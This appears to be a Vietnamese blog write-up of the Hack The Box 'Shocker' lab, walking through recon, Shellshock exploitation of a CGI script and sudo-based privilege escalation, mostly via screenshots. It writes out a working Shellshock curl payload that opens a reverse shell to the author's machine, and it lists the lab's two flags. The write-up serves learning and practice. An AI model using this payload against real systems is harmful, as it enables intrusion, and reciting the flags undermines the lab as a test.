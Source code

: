 ```yaml
---
title: Shocker
Date: 2025-01-07
categories: Hack The Box.Easy
tags:
  - HTB
  - Shocker
---
```

# Mô tả
Ngẫu hứng đêm phia ^^. Vì nay nhức chân không thể chạy bộ theo kế hoạch, chán quá không biết làm gì thôi thì làm một bài easy cho đỡ chán.
Lướt mô tả của các bài easy một hồi thì mình quyết định chọn bài này, vì nó làm mình nhớ đến cái bug huyền thoại thời nào.
Đây là mô tả của bài lab để bạn biết cụ thể hơn mình đang nói điều gì :)))

![Screenshot](/assets/htb/Pasted image 20250107002756.png)
# Attack
## Recon
Như thường lệ, vẫn là `nmap`.

![Screenshot](/assets/htb/Pasted image 20250107003411.png)

Vẫn là port 80 quen thuộc. Truy cập web thôi.

![Screenshot](/assets/htb/Pasted image 20250107005044.png)

Giao diện web cũng không có gì vui. Như một thói quen thời sinh viên, dirsearch thử xem có thư mục hay file nào hay ho không.

![Screenshot](/assets/htb/Pasted image 20250107003800.png)

Kết quả từ gobuster cũng vọn vẹn nhiêu đây. À há có `cgi-bin` kìa. Thử dirsearch phát nữa xem có gì hot.

![Screenshot](/assets/htb/Pasted image 20250107005222.png)

Ây da, lòi ra một file `.sh`.

![Screenshot](/assets/htb/Pasted image 20250107005233.png)

Truy cập vào thì chỉ có bấy nhiêu thông tin => Hơi thất vọng.
`Just an uptime test script` -> đây có vẻ như là một lệnh nào đó của linux. Đúng rồi đó là lệnh `uptime`.
## Exploit Shellshock
Mà ủa "làm vậy để làm chi ?", thật sự tới đây mình chưa hiểu được vấn đề ở đây là gì ? Thôi thì tạm để nó qua một bên vậy.
Nhớ lại đoạn mô tả của bài lab này có nhắc đến `Shellshock exploit`. Đây cũng chính là lỗ hổng trong truyền thuyết mà mình đã nhắc ở đầu bài viết. Cứ thử exploit thử xem sao đã.

![Screenshot](/assets/htb/Pasted image 20250107013223.png)

Ngol lụm luôn.
## Flag 1
![Screenshot](/assets/htb/Pasted image 20250107013519.png)

Flag 1: `94f6590c169a65d3375d01d7b2786046`
## Privileges
Vẫn như thói quen hồi đại học. Cứ hễ nghĩ đến leo quyền là nhanh tay gõ lệnh `sudo -l`.

![Screenshot](/assets/htb/Pasted image 20250107014136.png)

May thay đây cũng là một lab dạng easy nên có ngay kết quả chưa một binary có thể dùng quyền sudo mà không cần password.
Chuyện leo quyền bây giờ trở nên đơn giản hơn rồi. Việc còn lại là viết một payload sử dụng perl call tới /bin/bash như người dùng root là xong.
Do là gom chung vào 1 payload khá là khó chẹo nên mình quyết định reverse shell vào user `shelly` rồi sau đó leo quyền cho dễ.

![Screenshot](/assets/htb/Pasted image 20250107015655.png)

Payload: `curl -A '() { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.16.14/2804 0>&1' http://10.129.206.242/cgi-bin/user.sh`.
## Flag 2
![Screenshot](/assets/htb/Pasted image 20250107020250.png)

Flag 2: `bb1604537f6b21a35dab9402628b959a`.
